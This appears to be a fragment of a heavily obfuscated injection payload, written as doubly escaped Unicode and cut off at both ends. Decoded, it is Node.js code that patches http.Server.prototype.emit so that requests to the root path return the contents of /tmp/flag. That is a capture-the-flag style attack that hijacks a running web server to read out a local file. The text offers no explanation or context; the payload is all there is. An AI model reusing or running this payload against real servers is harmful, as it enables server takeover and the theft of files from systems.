065\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0032\u0030\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0033\u0064\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0037\u0037\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0032\u0030\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0033\u0061\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0033\u0062\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0032\u0030\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0033\u0064\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0037\u0037\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0032\u0030\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0033\u0061\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0033\u0062\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0032\u0030\u005c\u0075\u0030\u0030\u0036\u0036\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0033\u0064\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0037\u0037\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0032\u0030\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0033\u0061\u005c\u0075\u0030\u0030\u0036\u0036\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0033\u0064\u005c\u0075\u0030\u0030\u0033\u0065\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0031\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0036\u0036\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0033\u0062\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0032\u0030\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0034\u0035\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0033\u0064\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0035\u0033\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0037\u0039\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0033\u0062\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0035\u0033\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0037\u0039\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0033\u0064\u005c\u0075\u0030\u0030\u0036\u0036\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0032\u0063\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0037\u0062\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0036\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0033\u0064\u005c\u0075\u0030\u0030\u0033\u0064\u005c\u0075\u0030\u0030\u0033\u0064\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0031\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0037\u0062\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0035\u0062\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0031\u005c\u0075\u0030\u0030\u0032\u0063\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0035\u0064\u005c\u0075\u0030\u0030\u0033\u0064\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0033\u0062\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0032\u0030\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0035\u0035\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0033\u0064\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0031\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0032\u0063\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0033\u0062\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0036\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0035\u0035\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0033\u0064\u005c\u0075\u0030\u0030\u0033\u0064\u005c\u0075\u0030\u0030\u0033\u0064\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0032\u0066\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0037\u0062\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0037\u0039\u005c\u0075\u0030\u0030\u0037\u0062\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0032\u0030\u005c\u0075\u0030\u0030\u0036\u0036\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0033\u0064\u005c\u0075\u0030\u0030\u0036\u0036\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0034\u0036\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0035\u0033\u005c\u0075\u0030\u0030\u0037\u0039\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0032\u0066\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0032\u0066\u005c\u0075\u0030\u0030\u0036\u0036\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0032\u0063\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0036\u005c\u0075\u0030\u0030\u0033\u0038\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0033\u0062\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0037\u0037\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0034\u0038\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0033\u0032\u005c\u0075\u0030\u0030\u0033\u0030\u005c\u0075\u0030\u0030\u0033\u0030\u005c\u0075\u0030\u0030\u0032\u0063\u005c\u0075\u0030\u0030\u0037\u0062\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0032\u0064\u005c\u0075\u0030\u0030\u0035\u0034\u005c\u0075\u0030\u0030\u0037\u0039\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0033\u0061\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0038\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0032\u0066\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0037\u0064\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0033\u0062\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0036\u0036\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0033\u0062\u005c\u0075\u0030\u0030\u0037\u0064\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0037\u0062\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0037\u0037\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0034\u0038\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0033\u0035\u005c\u0075\u0030\u0030\u0033\u0030\u005c\u0075\u0030\u0030\u0033\u0030\u005c\u0075\u0030\u0030\u0032\u0063\u005c\u0075\u0030\u0030\u0037\u0062\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0032\u0064\u005c\u0075\u0030\u0030\u0035\u0034\u005c\u0075\u0030\u0030\u0037\u0039\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0033\u0061\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0032\u0066\u005c\u0075\u0030\u0030\u0036\u0061\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0032\u0037\u005c\u0075\u0030\u0030\u0037\u0064\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0033\u0062\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0034\u0061\u005c\u0075\u0030\u0030\u0035\u0033\u005c\u0075\u0030\u0030\u0034\u0066\u005c\u0075\u0030\u0030\u0034\u0065\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0036\u005c\u0075\u0030\u0030\u0037\u0039\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0037\u0062\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0033\u0061\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0064\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0033\u0062\u005c\u0075\u0030\u0030\u0037\u0064\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0032\u0030\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0033\u0062\u005c\u0075\u0030\u0030\u0037\u0064\u005c\u0075\u0030\u0030\u0037\u0064\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0032\u0030\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0034\u0035\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0032\u0065\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0037\u0039\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0032\u0063\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0037\u0032\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0033\u0062\u005c\u0075\u0030\u0030\u0037\u0064\u005c\u0075\u0030\u0030\u0033\u0062\u005c\u0075\u0030\u0030\u0037\u0064\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0032\u0038\u005c\u0075\u0030\u0030\u0032\u0039\u005c\u0075\u0030\u0030\u0033\u006